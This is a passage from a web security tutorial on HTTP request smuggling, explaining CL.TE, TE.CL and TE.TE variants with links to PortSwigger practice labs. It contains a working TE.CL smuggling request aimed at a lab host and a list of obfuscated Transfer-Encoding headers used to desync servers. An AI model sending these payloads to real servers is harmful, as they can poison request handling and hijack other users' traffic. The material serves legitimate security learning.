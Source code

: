 The front-end uses `Content-Length: 6` which sends the whole body (`0\r\nG\r`) to the back-end. The back-end uses `Transfer-Encoding: chunked` which will read the first `0` and then stop because this signals the end. When anyone now does another request to the back-end, the `G` is already sent and prepended to it making the request `GPOST` if it was a `POST` before.

### TE.CL

{% embed url="https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl" %}
Portswigger **lab** for practicing TE.CL type
{% endembed %}

> Burp Suite automatically fixes `Content-Length`, but it only is correct for the back-end after splitting the request. So turn off "Update Content-Length" setting in Repeater

```http
POST /post/comment HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

61
GPOST /post/comment HTTP/1.1
Host: your-lab-id.web-security-academy.net


0


```

The front-end takes `Transfer-Encoding: chunked`, so it sends the whole body to the back-end. Then the back-end takes `Content-Length: 4` and only reads the first `61\r` bytes. The back-end server responds that the request does not contain the right parameters but this does not matter. Next, the `GPOST` is also sent to the back-end and when anyone now makes another request to the back-end, it will respond with the already done `GPOST` answer.

### TE.TE

{% embed url="https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header" %}
Portswigger **lab** for practicing TE.TE type
{% endembed %}

Ways to confuse front-end and back-end:

```http
Transfer-Encoding: xchunked

Transfer-Encoding: CHUNKED

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```
